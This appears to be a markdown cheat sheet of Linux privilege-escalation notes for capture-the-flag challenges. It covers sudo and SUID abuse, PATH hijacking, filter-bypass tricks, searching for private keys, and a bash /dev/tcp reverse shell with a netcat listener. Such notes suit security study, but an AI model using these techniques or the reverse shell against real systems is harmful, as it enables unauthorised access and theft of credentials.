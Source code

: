 [BACK](../README.md)
# Linux

Move from ssh to main computer:
```bash
scp -P [PORT] user@host:path /mnt/c/Users/...
```

```bash
sudo -l #list actions that you can do
sudo -u [user] #impersonate user
```

If you are allowed to do a command on a path ending with /*, you can execute it anywhere
## ELF files:
- Get info about an elf file: `readelf [file]`
- [Diagram of an elf file structure](img/ELF_Executable_and_Linkable_Format_diagram_by_Ange_Albertini.png) 
## Unix bins that can bypass security stuff
https://gtfobins.github.io/

checksec:
Shows the security information on a file.
useful for pwn challenges 

## Useful to search:
- .php files
- .html/.js/.css
- .db files
- ./ssh
    - id_rsa <- private key
- ./etc ./www
- .config files
- .log files
- grep -r "tofind" 2>/dev/null 
  - search in all the files in a folder
- find / -readable -and -user [user] 2>/dev/null | grep -v 'proc' | grep -v 'sys'
### ex:
    
    User x may run the following commands on host_machine:
    /bin/cat /x/public/* 
                       
    this means you can do something like: cat /x/public/../../user2/flag.txt

## SUID exploits

If file permission has: -##s##### (s instead of x for root permission) -> <strong>SUID</strong>

### 1. Change PATH variable
#### Example:
```bash
ls flag.txt
```
#### Exploit by:
```bash
cp /bin/cat /tmp/ls #if there are arguments after the ls, try using nano instead
export PATH=/tmp 
```
### 2. Pass a symlink to a file
### File descriptors:
    STDIN = 0
    STDOUT = 1
    STDERR = 2
    
### 3. If a program is used in the suid execution, you can switch it for another
```bash
#ex: program calls /bin/bash -c "md5sum flag.txt"
which md5sum
# "/usr/bin/md5sum" <- We have the perms to modify it
cp /usr/bin/cat /usr/bin/md5sum #<- replaced md5sum with cat
./program #<- program will call /usr/bin/cat instead of /usr/bin/md5sum
```
### Cat file without putting spaces:
`cat</path/to/file`
### Bypass space:
 ${IFS} == space
### Pass commands as input
If eval is used:
- Pass command in between ``
  
### Bypass &>/dev/null
- eval $(command) 2>&0
  - execute the command
  - tries to execute the result
  - fails unless the result is a command
  - prints to stderr the result of the command
  - redirects stderr to stdin

### Bypass characters
- use ? for one or 2 unknown chars in paths
- {startchar..endchar}\ can be used to loop through the characters in the interval
  - ex: b and s are not allowed in the input, trying to launch bash:
    - eval {a..c}a{r..t}h\;
  
## Conditionals:

- -eq -> compare numbers
- [  ] -> equivalent to test
- -z -> empty string
- -n -> not empty string
- -e -> file exists
- -f -> file exists and is a regular file
- -d -> file exists and is a directory
- -r -> file is readable
- -w -> file is writable
- -x -> file is executable
- -o -> or
- -a -> and
- -gt -> greater than
- -lt -> less than
- -ge -> greater or equal
- -le -> less or equal
- -ne -> not equal

### Unquoted expression injection
if we use test or [   ] with an argument that is not quoted, we can inject conditinals
```bash
[ $VAR -eq $1 ] #we can pass something like 1 -o 1 -eq 1 to return true
```

### Useful commands:
- `echo -n` -> no newline
- `cut -d [delimiter] -f [index]` -> cut by delimiter and get input at index (Starts at 1)
- `cut -c [start]-[end]` -> cut by character
- `tr -d [char]` -> delete all instance of [char]
- `tr -s [char_array] [char]` -> replace all char in [char_array] with [char]
- `xxd -r -p` -> convert hex to ascii

## SSH

Check /etc/ssh/ssh_config for the ssh config
- ForceCommand:
  - Runs a command when a user connects 
  

## Reverse shell:
- Listener(on my machine): `nc -nvlp [PORT]`
- Senders:
  - Bash: `bash  -i >& /dev/tcp/[IP]/[PORT] 0>&1 `

## Misc
- If arguments are not in quotes, we can inject commands
- If command injection is not possible, we an inject arguments to a command